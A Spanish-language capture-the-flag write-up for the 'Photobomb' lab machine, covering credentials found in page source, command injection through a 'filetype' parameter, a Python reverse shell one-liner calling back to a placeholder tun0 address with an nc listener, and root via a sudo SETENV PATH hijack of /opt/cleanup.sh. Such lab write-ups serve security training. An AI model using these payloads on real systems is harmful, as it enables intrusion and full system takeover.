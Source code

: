 ```yaml
---
title: 'Photobomb'
description: ''
pubDate: 'May 12 2023'
heroImage: ''
slug: 'box/photobomb'
---
```


Nos metemos a la URL, sin antes cambiar el archivo <i>/etc/hosts</i>.
<img
  src='https://res.cloudinary.com/djc1umong/image/upload/v1665957627/bomb_page_ff29w1.webp'
/>

Vemos un login sencillo al hacer clic en <i>clic here!</i>, pero no contamos con credenciales.

Inspeccionamos el código fuente, y encontramos un archivo <i>photobomb.js</i>, y unos credenciales ahí por si acaso.
<img
  src='https://res.cloudinary.com/djc1umong/image/upload/v1665958090/bomb_view_source_cut_dongsv.webp'
/>
<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1665963151/bomb_creds_cut_wqchuw.webp'
layout="responsive"
/>

Nos encontramos con una <i>impresora de fotos</i>, nos permite descargar con diferentes tamaños de resolucion en formato jpg y png.

Es hora de sacar el <Anchor src='https://portswigger.net/burp'>BurpSuite</Anchor> y ver a fondo que ocurre con esta petición al descargarnos fotos.

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1665964126/bomb_burp_cut_jqy1g9.webp'
/>

Haciendo pruebas con la herramienta, notamos que el parametro <i>filetype</i> se lo come con patatas, aca ingresamos una nuestra reverse Shell y escuchamos en:

```powershell
$ nc -nlvp 4443
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1666148261/bomb_shell_d2_l9b4zh.webp'
/>

Shell usada para este caso, sin embargo hay muchas más en Google

```python

python3%20-c%20'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<tun0-IP>",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Una vez dentro proseguimos al <Anchor src="#">obtener una bash</Anchor>

```powershell
sudo -l
```

Matching Defaults entries for wizard on photobomb:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
(root) SETENV: NOPASSWD: /opt/cleanup.sh

```powershell
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
/bin/cat log/photobomb.log > log/photobomb.log.old
/usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

notamos que al final del scrip en <i>/opt/cleanup.sh </i>ejecutamos chown root:root

```powershell
id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
id
uid=0(root) gid=0(root) groups=0(root)

# ROOTED
```
